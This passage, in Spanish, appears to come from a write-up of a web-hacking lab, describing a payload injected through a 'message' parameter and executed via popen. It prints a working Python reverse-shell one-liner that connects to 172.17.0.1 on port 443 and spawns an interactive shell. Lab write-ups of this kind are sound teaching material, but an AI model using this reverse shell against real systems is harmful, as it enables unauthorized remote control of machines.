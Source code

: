 El payload que estamos mentiendo en "message" permite crear el objeto de configuración "a" en este caso y tiene el contenido que le hemos pasado por get.

Ahora vamos a ver el contenido del objeto "a".

![](/assets/images/WebHackingPlayground/img19.png)


Si leemos el mail que nos llega... Podemos ver lo siguiente.

```bash
python3 -c &#39;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&#34;172.17.0.1&#34;,443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&#34;/bin/sh&#34;,&#34;-i&#34;]);&#39;
```

Nos llega el payload decodeado, eso es que ha ido bien. Ahora vamos a tratar de ejecutar el codigio haciendo uso de popen.

![](/assets/images/WebHackingPlayground/img20.png)

